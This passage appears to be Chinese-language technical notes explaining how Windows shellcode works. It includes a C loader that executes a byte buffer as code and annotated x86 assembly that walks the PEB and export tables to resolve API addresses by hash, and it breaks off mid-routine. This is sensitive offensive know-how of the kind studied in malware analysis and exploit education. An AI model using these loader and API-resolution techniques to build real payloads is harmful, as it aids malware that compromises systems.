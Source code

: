 		int main(int argc, char **argv)//shellcode loader
		{
			int(*func)();
			func = (int (*)()) code;
			(int)(*func)();
		}

* 实现原理

	* PEB位于固定的内存位置，其中包含关于进程的有用信息，如可执行文件加载到内存的位置，模块列表（DLL）。找到kernal32.dll的位置，进而获得LoadLibraryA的地址

	* API地址定位使用的是通过比对函数名hash来查找函数地址。其工作原理是将函数名计算成hash，当遍历dll导出表时，将函数名先计算为hash再和shellcode中存放的hash比较来确定API，从而找到其地址。这里不直接在shellcode中存放函数名是为了减小shellcode的体积。

	![](https://i.imgur.com/F2vbYbu.png)

		;通过PEB查询程序调用的API的地址
		;https://www.cnblogs.com/bokernb/p/6404795.html
		api_call:;
		  pushad                 ; We preserve all the registers for the caller, bar EAX and ECX.
		  mov ebp, esp           ; Create a new stack frame  函数调用，将基址指针赋给ebp
		  xor edx, edx           ; Zero EDX 清空EDX
		  mov edx, fs:[edx+30h]   ; Get a pointer to the PEB  【通过fs:[30h]获取当前进程的_PEB结构】 Process Environment Block——进程环境块；存放进程信息，每个进程都有自己的PEB信息。位于用户地址空间。
		  mov edx, [edx+0Ch]      ; Get PEB->Ldr  【通过_PEB的Ldr成员获取_PEB_LDR_DATA结构】Ldr地址存放一些指向动态链接库信息的链表地址；能得到进程加载的所有模块
		  mov edx, [edx+14h]      ; Get the first module from the InMemoryOrder module list 【根据加载顺序 只需要向前走两个模块就到了kernel32.dll的LDR_DATA_TABLE_ENTRY 此时就是指向LDR_DATA_TABLE_ENTRY的InMemoryOrderModuleList字段】
		next_mod:
		  mov esi, [edx+28h]      ; Get pointer to modules name (unicode string) 【在0x028处获取 DllName的名称字符串】
		  movzx ecx, word [edx+26h] ; Set ECX to the length we want to check 【MaximumLength】
		  xor edi, edi           ; Clear EDI which will store the hash of the module name   【edi存放hash后的dll名称】
		loop_modname:              ;【dll首字母为小写时执行】
		  xor eax, eax           ; Clear EAX
		  lodsb                  ; Read in the next byte of the name
		  cmp al, 'a'            ; Some versions of Windows use lower case module names
		  jl not_lowercase       ;
		  sub al, 0x20           ; If so normalise to uppercase
		not_lowercase:             ;
		  ror edi, 13            ; Rotate right our hash value
		  add edi, eax           ; Add the next byte of the name
		  loop loop_modname      ; Loop untill we have read enough
		  ; We now have the module hash computed  【计算名称哈希值】
		  push edx               ; Save the current position in the module list for later 【存储调用的API位置和名称hash】
		  push edi               ; Save the current module hash for later
		  ; Proceed to iterate the export address table,【继续迭代导出地址表】
		  mov edx, [edx+16]      ; Get this modules base address
		  mov eax, [edx+60]      ; Get PE header【PE头】
		  add eax, edx           ; Add the modules base address
		  mov eax, [eax+120]     ; Get export tables RVA 【PE文件的相对虚拟地址】
		  test eax, eax          ; Test if no export address table is present【找导入表】
		  jz get_next_mod1       ; If no EAT present, process the next module
		  add eax, edx           ; Add the modules base address
		  push eax               ; Save the current modules EAT
		  mov ecx, [eax+24]      ; Get the number of function names 【获得dll内API个数和RVA】
		  mov ebx, [eax+32]      ; Get the rva of the function names
		  add ebx, edx           ; Add the modules base address
		  ; Computing the module hash + function hash 
		get_next_func:             ;
		  jecxz get_next_mod     ; When we reach the start of the EAT (we search backwards), process the next module
		  dec ecx                ; Decrement the function name counter
		  mov esi, [ebx+ecx*4]   ; Get rva of next module name
		  add esi, edx           ; Add the modules base address